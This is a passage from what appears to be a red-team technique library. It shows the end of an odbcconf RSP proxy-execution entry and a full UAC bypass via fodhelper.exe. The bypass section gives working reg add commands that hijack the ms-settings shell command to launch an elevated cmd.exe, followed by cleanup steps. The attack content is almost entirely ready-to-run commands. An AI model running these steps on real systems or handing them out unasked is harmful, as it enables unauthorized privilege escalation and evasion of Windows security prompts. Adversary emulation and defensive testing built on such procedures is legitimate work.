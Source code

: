 The RSP file can be executed using:

```
odbcconf -f {{ rsp }}
```

### References

- https://gist.github.com/NickTyrer/6ef02ce3fd623483137b45f65017352b
- https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/


## UAC Bypass - via fodhelper.exe

User Account Control is not a security control but can cause issues with execution when attempting privileged operations

Move to a high-integrity execution context via fodhelper.exe and a Registry modification. Fodhelper.exe is one of many unpatched methods for bypassing UAC.

### Prerequisites

- Split-token admin account

### Guidance

Check for the existence of the target registry key. If it exists, note the value so that it can be restored after execution.

```
cmd> reg query HKCU\Software\Classes\ms-settings\Shell\Open\command
```

Modify the registry key and execute fodhelper.exe to obtain an elevated command prompt:

```
cmd> 
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\windows\system32\cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /d "" /f
c:\windows\system32\fodhelper.exe
```

### Cleanup

If the registry existed prior to execution, restore its value:

```
cmd> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v {{ initial_command }} /f
```

Otherwise, delete the key:

```
cmd> reg delete HKCU\Software\Classes\ms-settings\Shell\Open\command /f
```

